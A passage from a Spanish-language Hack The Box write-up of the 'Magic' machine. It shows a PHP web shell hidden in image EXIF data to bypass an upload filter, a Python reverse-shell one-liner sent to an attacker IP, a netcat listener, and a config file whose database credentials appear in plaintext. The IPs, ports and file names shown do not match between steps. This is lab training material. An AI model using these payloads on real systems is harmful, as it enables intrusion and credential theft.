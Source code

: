 


## Explotación

Una vez que introducimos los comandos anteriores nos redirecciona a la página `upload.php` y nos permite subir una imagen. Lo primero que intentamos es subir un archivo `.php` pero no funciona. Buscando en internet cómo hacer bypass para subir archivos en páginas web y encontramos que usando la herramienta `exiftool` podemos  manipular imágenes así que vamos a esconder un payload en la imagen de la siguiente manera

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Magic]
└──╼ #exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' imagen.jpeg 
    1 image files updated                                                                                                              
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Magic]
└──╼ #mv imagen.jpeg imagen.php.jpeg
```

Luego cargamos la imagen en el sistema. Para tener la shell reversa, escribimos lo siguiente en la url y antes de darle enter, debemos ponernos en modo escucha con netcat en el puerto que hayamos establecido

```
http://10.10.10.185/images/uploads/hack.php.png?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
┌──[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Magic]
└──╼ #nc -nlvp 9001                                                                                                                    
listening on [any] 9001 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.185] 58698
/bin/sh: 0: can't access tty; job control turned off                                                                                   
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/Magic/images/uploads$ ls
7.jpg      logo.png            magic-hat_23-2147512156.jpg  prueba.php.jpg
```

Buscando archivo sensibles que nos de información para las credenciales del usuario, encontramos el archivo `db.php5` y encontramos lo siguiente

```php
www-data@ubuntu:/var/www/Magic/images/uploads$ cd /var/www/Magic
www-data@ubuntu:/var/www/Magic$ ls
assets  db.php5  images  index.php  login.php  logout.php  upload.php
www-data@ubuntu:/var/www/Magic$ cat db.php5

<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
}
```
